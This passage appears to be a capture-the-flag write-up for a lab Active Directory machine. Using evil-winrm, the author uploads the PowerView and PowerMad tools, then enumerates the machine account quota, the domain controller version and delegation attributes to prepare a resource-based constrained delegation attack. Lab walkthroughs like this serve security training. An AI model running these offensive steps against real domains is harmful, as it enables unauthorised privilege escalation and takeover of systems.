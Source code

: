 **First, I'll upload `PowerView.ps1` and `PowerMad.ps1` via `evil-winrm`:**
```
*Evil-WinRM* PS C:\Users\support\Documents> upload /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/powermad.ps1
*Evil-WinRM* PS C:\Users\support\Documents> upload /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/powerview.ps1
```

**Then, import those modules:**
```
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\powerview.ps1
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\powermad.ps1
```

In an Active Directory environment, **a domain user can add a computer object into the domain**, we can check that via `Get-DomainObject`:

```
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainObject -Identity 'dc=support,dc=htb' -Domain support.htb

[...]
ms-ds-machineaccountquota                   : 10
[...]
```

Yep, we can add 10 computer objects into the domain.

**Next, I'll check the machine's version:**
```
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainController

[...]
OSVersion                  : Windows Server 2022 Standard
[...]
```

**It's running `Windows Server 2022`.**

Finally, let's **check the target computer doesn't have the attribute `msds-allowedtoactonbehalfofotheridentity` set.**

```
*Evil-WinRM* PS C:\Users\support\Documents> Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity

name msds-allowedtoactonbehalfofotheridentity
---- ----------------------------------------
DC   
```

It's empty!!

Armed with the above information, **we can create a fake computer object!** (Source: [Red Team Experiments](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#creating-a-new-computer-object))
